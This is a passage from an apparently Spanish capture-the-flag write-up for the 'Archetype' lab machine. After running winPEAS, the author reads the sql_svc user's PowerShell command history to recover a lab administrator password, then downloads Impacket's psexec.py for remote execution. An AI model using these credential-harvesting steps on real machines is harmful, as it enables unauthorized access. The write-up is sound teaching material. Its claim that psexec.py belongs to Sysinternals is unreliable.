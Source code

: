 Ejecutamos la herramienta.

```powershell
./winPEASx64.exe
```

Al ejecutar la herramienta podemos ver todas las vulnerabilidades de la maquina.

![img](/assets/img/post/archetype/archive.png) 

Vamos a ver que contiene este archivo de texto, que nos reporto la herramienta.

Nos dirigimos a la ruta:
```powershell
cd \
```

```powershell
cd Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

Miramos que tiene:
```powershell
type ConsoleHost_history.txt
```

![img](/assets/img/post/archetype/pass.png)

Tenemos las credenciales.

- User: administrator
- Password: MEGACORP_4dm1n!!


Cerramos todo. 

Usaremos la herramienta Psexec.py, es una herramienta que permite ejecutar comandos de forma remota en sistemas Windows a través de una conexión de red. Esta herramienta forma parte del conjunto de herramientas de Sysinternals, una colección de utilidades de software para la administración y diagnóstico de sistemas Windows.

Las descargamos de Github:

```bash 
❯ wget https://github.com/fortra/impacket/blob/master/examples/psexec.py
```
```bash
--2023-05-03 15:24:25--  https://github.com/fortra/impacket/blob/master/examples/psexec.py
Resolving github.com (github.com)... 140.82.112.4
Connecting to github.com (github.com)|140.82.112.4|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘psexec.py’
```

